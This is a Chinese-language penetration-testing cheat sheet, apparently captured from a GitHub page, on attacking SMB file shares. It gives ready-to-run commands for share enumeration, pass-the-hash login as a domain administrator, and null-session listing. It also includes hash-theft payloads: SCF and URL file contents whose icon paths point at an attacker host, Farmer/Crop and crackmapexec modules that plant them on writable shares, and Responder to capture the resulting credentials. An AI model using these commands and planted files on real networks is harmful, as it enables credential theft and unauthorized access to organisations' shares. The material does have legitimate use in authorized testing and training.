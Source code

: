 	某些共享无需身份验证即可访问，探索它们以找到一些有趣的文件
### smbmap
  	https://github.com/ShawnDEvans/smbmap
  	>smbmap -H 10.10.10.10                
	>smbmap -H 10.10.10.10 -R             # 递归列表
	>smbmap -H 10.10.10.10 -u invaliduser 
	>smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
### pth-smbclient from path-toolkit
  	https://github.com/byt3bl33d3r/pth-toolkit
	>pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
	>pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
	>ls  # 列文件
	>cd  # 切换目录
	>get # 下载
	>put # 上传
### smbclient from Impacket
  	https://github.com/SecureAuthCorp/impacket
	>smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
### 针对可写共享的 SCF 和 URL 文件攻击
  	https://github.com/mdsecactivebreach/Farmer
	https://github.com/mdsecactivebreach/Farmer/tree/main/crop
	>farmer.exe <port> [seconds] [output]
	>farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
	>farmer.exe 8888 60 # one minute
	Crop 可用于创建各种文件，这些文件将触发 SMB/WebDAV 连接，以便在哈希收集攻击期间中毒文件共享
	>crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
	>Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
	>Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
### SCF文件
  	@something.scf文件写入以下内容
	[Shell]
	Command=2
	IconFile=\\10.10.10.10\Share\test.ico
	[Taskbar]
	Command=ToggleDesktop
	然后监听
	>responder -wrf --lm -v -I eth0
	使用crackmapexec:
	>crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
	>crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
	>crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
### URL文件
	.url文件写入以下内容
	[InternetShortcut]
	URL=whatever
	WorkingDirectory=whatever
	IconFile=\\10.10.10.10\%USERNAME%.icon
	IconIndex=1
	然后监听
	>responder -I eth0 -v